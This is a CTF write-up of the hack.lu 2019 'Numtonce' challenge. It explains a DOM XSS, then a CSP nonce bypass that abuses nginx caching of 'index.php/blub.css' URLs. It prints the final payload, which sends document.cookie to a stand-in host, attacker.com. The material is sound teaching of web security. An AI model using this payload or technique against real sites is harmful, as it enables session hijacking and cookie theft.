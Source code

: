```yaml
---
title:  "Numtonce"
date:   "2019-10-27"
tags: ["web", "XSS", "CSP", "hacklu2019"]
author: "Alain K."
coverImagePath: "img/hacklu2019_website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](img/hacklu2019_website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to submit an URL to. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](img/hacklu2019_csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( \{nonce\} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="\{nonce\}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="\{nonce\}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="\{nonce\}">document.write('<script nonce="\{nonce\}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

\{nonce\} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

